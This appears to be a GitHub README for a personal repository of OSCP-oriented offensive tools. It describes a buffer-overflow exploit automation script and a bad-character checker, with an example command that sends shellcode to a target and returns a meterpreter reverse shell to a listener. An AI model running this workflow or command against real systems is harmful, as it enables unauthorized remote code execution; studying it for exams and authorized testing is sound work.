 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!
